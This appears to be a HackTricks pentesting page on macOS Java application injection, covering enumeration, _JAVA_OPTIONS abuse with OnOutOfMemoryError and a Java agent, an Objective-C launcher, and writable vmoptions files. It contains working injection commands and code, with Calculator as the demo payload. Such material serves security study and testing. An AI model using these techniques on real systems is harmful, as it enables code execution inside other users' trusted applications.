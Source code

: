# macOS Java Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Enumeration

Find Java applications installed in your system. It was noticed that Java apps in the **Info.plist** will contain some java parameters which contain the string **`java.`**, so you can search for that:

```bash
# Search only in /Applications folder
sudo find /Applications -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null

# Full search
sudo find / -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null
```

## \_JAVA_OPTIONS

The env variable **`_JAVA_OPTIONS`** can be used to inject arbitrary java parameters in the execution of a java compiled app:

```bash
# Write your payload in a script called /tmp/payload.sh
export _JAVA_OPTIONS='-Xms2m -Xmx5m -XX:OnOutOfMemoryError="/tmp/payload.sh"'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"
```

To execute it as a new process and not as a child of the current terminal you can use:

```objectivec
#import <Foundation/Foundation.h>
// clang -fobjc-arc -framework Foundation invoker.m -o invoker

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        // Specify the file path and content
        NSString *filePath = @"/tmp/payload.sh";
        NSString *content = @"#!/bin/bash\n/Applications/iTerm.app/Contents/MacOS/iTerm2";

        NSError *error = nil;

        // Write content to the file
        BOOL success = [content writeToFile:filePath
                                 atomically:YES
                                   encoding:NSUTF8StringEncoding
                                      error:&error];

        if (!success) {
            NSLog(@"Error writing file at %@\n%@", filePath, [error localizedDescription]);
            return 1;
        }

        NSLog(@"File written successfully to %@", filePath);

        // Create a new task
        NSTask *task = [[NSTask alloc] init];

        /// Set the task's launch path to use the 'open' command
        [task setLaunchPath:@"/usr/bin/open"];

        // Arguments for the 'open' command, specifying the path to Android Studio
        [task setArguments:@[@"/Applications/Android Studio.app"]];

        // Define custom environment variables
        NSDictionary *customEnvironment = @{
            @"_JAVA_OPTIONS": @"-Xms2m -Xmx5m -XX:OnOutOfMemoryError=/tmp/payload.sh"
        };

        // Get the current environment and merge it with custom variables
        NSMutableDictionary *environment = [NSMutableDictionary dictionaryWithDictionary:[[NSProcessInfo processInfo] environment]];
        [environment addEntriesFromDictionary:customEnvironment];

        // Set the task's environment
        [task setEnvironment:environment];

        // Launch the task
        [task launch];
    }
    return 0;
}
```

However, that will trigger an error on the executed app, another more stealth way is to create a java agent and use:

```bash
export _JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```

> [!CAUTION]
> Creating the agent with a **different Java version** from the application can crash the execution of both the agent and the application

Where the agent can be:

```java:Agent.java
import java.io.*;
import java.lang.instrument.*;

public class Agent {
  public static void premain(String args, Instrumentation inst) {
    try {
      String[] commands = new String[] { "/usr/bin/open", "-a", "Calculator" };
      Runtime.getRuntime().exec(commands);
    }
    catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```

To compile the agent run:

```bash
javac Agent.java # Create Agent.class
jar cvfm Agent.jar manifest.txt Agent.class # Create Agent.jar
```

With `manifest.txt`:

```
Premain-Class: Agent
Agent-Class: Agent
Can-Redefine-Classes: true
Can-Retransform-Classes: true
```

And then export the env variable and run the java application like:

```bash
export _JAVA_OPTIONS='-javaagent:/tmp/j/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```

## vmoptions file

This file support the specification of **Java params** when Java is executed. You could use some of the previous tricks to change the java params and **make the process execute arbitrary commands**.\
Moreover, this file can also **include others** with the `include` directory, so you could also change an included file.

Even more, some Java apps will **load more than one `vmoptions`** file.

Some applications like Android Studio indicates in their **output where are they looking** for these files, like:

```bash
/Applications/Android\ Studio.app/Contents/MacOS/studio 2>&1 | grep vmoptions

2023-12-13 19:53:23.920 studio[74913:581359] fullFileName is: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] fullFileName exists: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.921 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app.vmoptions
2023-12-13 19:53:23.922 studio[74913:581359] parseVMOptions: /Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
2023-12-13 19:53:23.923 studio[74913:581359] parseVMOptions: platform=20 user=1 file=/Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
```

If they don't you can easily check for it with:

```bash
# Monitor
sudo eslogger lookup | grep vmoption # Give FDA to the Terminal

# Launch the Java app
/Applications/Android\ Studio.app/Contents/MacOS/studio
```

Note how interesting is that Android Studio in this example is trying to load the file **`/Applications/Android Studio.app.vmoptions`**, a place where any user from the **`admin` group has write access.**

{{#include ../../../banners/hacktricks-training.md}}



